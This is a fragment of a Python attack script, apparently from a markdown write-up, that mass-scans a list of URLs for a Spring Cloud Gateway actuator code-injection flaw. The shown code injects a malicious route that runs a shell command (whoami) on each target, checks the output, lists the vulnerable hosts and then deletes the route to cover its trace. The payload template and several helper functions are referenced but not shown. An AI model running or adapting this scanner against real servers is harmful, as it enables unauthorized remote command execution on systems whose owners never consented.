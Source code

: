 ~~~python
def deleteroute(url,evilroute):
    try:
        res = requests.delete(url=url + "actuator/gateway/routes/"+evilroute,headers=headers2,timeout=5)
    except:
        return 0

def loadurl(filename):
    urls = []
    with open(filename,"r",encoding='utf-8') as f:
        for line in f:
            urls.append(line[:-1]+"/")
    return urls
if __name__ == '__main__':


    urls = loadurl("url.txt")
    urls = verify(urls)

    cmd = "whoami"
    evil = "qaxnb" #创建的路由名

    vul_url = []
    payload = payload % (evil, cmd)
    for url in urls:
        print("Checking "+url,end="")

        if ( setroutes(url, payload, evil) & refresh(url)):
            print(redline.format("     =====>      "),end="")
            check(url, evil)
            vul_url.append(url)
            deleteroute(url,evil)
        else:
            print("    not exist      ")
            deleteroute(url, evil)
    print("\n\n\n The following url is vulnerable \n")
    for url in vul_url:
        print(redline.format("[+] "+url))
~~~

![image-20220629110541280](TyporaPicture/image-20220629110541280.png)
